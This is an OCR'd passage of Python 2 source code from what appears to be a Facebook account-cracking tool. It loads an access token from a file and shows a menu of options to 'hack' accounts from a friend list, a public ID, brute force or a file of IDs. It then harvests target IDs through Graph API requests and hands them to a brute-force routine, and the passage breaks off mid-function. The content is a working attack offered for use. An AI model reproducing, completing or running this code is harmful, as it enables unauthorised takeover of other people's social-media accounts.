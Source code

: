 def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;97mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print "\x1b[1;32;40m[1] \033[1;33;40m══Hack From your Friend List"
	print "\x1b[1;32;40m[2] \033[1;33;40m══Hack From Public ID"
	print "\x1b[1;32;40m[3] \033[1;33;40m══Hack with Bruteforce"
	print "\x1b[1;32;40m[4] \033[1;33;40m══Hack From File"
	print "\x1b[1;32;40m[0] \033[1;33;40m══Back"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;31;40m>>> \033[1;97m")
	if peak =="":
		print "\033[1;97mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo

		jalan('\033[1;95m[✺] Getting IDs \033[1;95m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])

	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;97m[*] Enter ID : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;31;40m[✺] Name : "+op["name"]
		except KeyError:
			print"\033[1;97m[✺] ID Not Found!"
			raw_input("\n\033[1;97m[\033[1;97mBack\033[1;97m]")
			super()
		print"\033[1;35;40m[✺] Getting IDs..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="3":
		os.system('clear')
		print logo
		brute()	
	elif peak =="4":
		os.system('clear')
		print logo                  
		try:
			idlist = raw_input('\033[1;97m[+] \033[1;97mEnter the file name \033[1;97m: \033[1;97m')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '\x1b[1;35;40m[!] \x1b[1;35;40mFile not found'
			raw_input('\n\x1b[1;35;40m[ \x1b[1;35;40mExit \x1b[1;35;40m]')